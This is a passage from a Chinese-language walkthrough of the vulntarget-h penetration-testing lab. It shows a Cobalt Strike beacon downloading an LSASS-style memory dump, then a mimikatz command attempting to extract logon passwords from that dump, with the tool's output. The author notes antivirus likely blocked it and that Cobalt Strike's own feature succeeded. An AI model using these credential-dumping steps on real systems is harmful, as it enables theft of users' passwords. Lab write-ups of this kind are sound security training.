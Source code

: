 + 下载dmp文件。

```bash
beacon> download 1.dmp
[*] Tasked beacon to download 1.dmp
[+] host called home, sent: 13 bytes
[*] started download of C:\phpstudy_pro\WWW\1.dmp (46832222 bytes)
```

+ 使用`mimikatz`读取密码。

```bash
──(kali㉿kali)-[~/Desktop]
└─$ wine /usr/share/windows-resources/mimikatz/x64/mimikatz.exe "sekurlsa::minidump e723ff153" "sekurlsa::logonPasswords full" exit
0040:err:winediag:SECUR32_initNTLMSP ntlm_auth was not found or is outdated. Make sure that ntlm_auth >= 3.0.25 is in your path. Usually, you can find it in the winbind package of your distribution.

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
>>> INIT of 'kerberos' module failed : c0000001
0050:err:ole:start_rpcss Failed to open RpcSs service

mimikatz(commandline) # sekurlsa::minidump e723ff153
Switch to MINIDUMP : 'e723ff153'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'e723ff153' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Local LSA library failed

mimikatz(commandline) # exit
Bye!
```

+ 通过上方的返回结果应该是给杀毒拦截了。

+ 尝试使用CS抓取明文密码功能发现可以直接抓到。

![Screenshot_2022-07-02_23-43-19.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_23-43-19.png)
